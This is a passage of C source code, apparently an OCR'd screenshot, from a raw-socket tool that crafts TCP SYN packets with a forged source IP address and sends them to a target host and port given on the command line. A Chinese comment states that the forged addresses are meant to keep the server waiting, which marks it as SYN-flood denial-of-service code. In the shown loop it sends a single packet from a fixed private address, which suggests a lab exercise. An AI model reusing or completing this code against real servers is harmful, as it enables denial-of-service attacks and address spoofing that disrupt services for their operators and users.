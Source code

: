 ```
		tcp->source = htons(srcport);
		tcp->dest = target->sin_port;
		srand(time(NULL));
		tcp->doff = (sizeof(struct tcphdr) + op_len) >> 2; // tcphdr + option
		tcp->syn = 1;
		tcp->check = 0;
		tcp->window = ntohs(14600);

		int i = ip_len - op_len;
		// mss = 1460
		buf[i++] = 0x02;
		buf[i++] = 0x04;
		buf[i++] = 0x05;
		buf[i++] = 0xb4;
		// sack
		buf[i++] = 0x01;
		buf[i++] = 0x01;
		buf[i++] = 0x04;
		buf[i++] = 0x02;
		// wsscale = 7
		buf[i++] = 0x01;
		buf[i++] = 0x03;
		buf[i++] = 0x03;
		buf[i++] = 0x07;

		int T = 1;
		while(1) {
			if (T == 0) break;
			T--;
			tcp->seq = random();
			//源地址伪造，我们随便任意生成个地址，让服务器一直等待下去
			//ip->ip_src.s_addr = random();
			//自定义源地址192.168.204.136 = 0xc0a8cc88; 反转赋值
			ip->ip_src.s_addr = 0x88cca8c0;
			unsigned sum = csum_tcpudp_nofold(ip->ip_src.s_addr, ip->ip_dst.s_addr, sizeof(struct tcphdr)+op_len, IPPROTO_TCP, 0);
			tcp->check = check_sum((unsigned short*)tcp, sizeof(struct tcphdr)+op_len, sum);
	//		ip->ip_sum = check_sum((unsigned short*)ip, sizeof(struct ip), 0);
			sendto(skfd, buf, ip_len, 0, (struct sockaddr*)target, sizeof(struct sockaddr_in));
		}
	}

	int main(int argc, char** argv)
	{
		int skfd;
		struct sockaddr_in target;
		struct hostent *host;
		const int on = 1;
		unsigned short srcport;

		if (argc != 4) {
			printf("Usage:%s dstip dstport srcport\n", argv[0]);
			exit(1);
		}

		bzero(&target, sizeof(struct sockaddr_in));
		target.sin_family = AF_INET;
		target.sin_port = htons(atoi(argv[2]));

		if (inet_aton(argv[1], &target.sin_addr) == 0) {
			host = gethostbyname(argv[1]);
			if(host == NULL) {
				printf("TargetName Error:%s\n", hstrerror(h_errno));
```
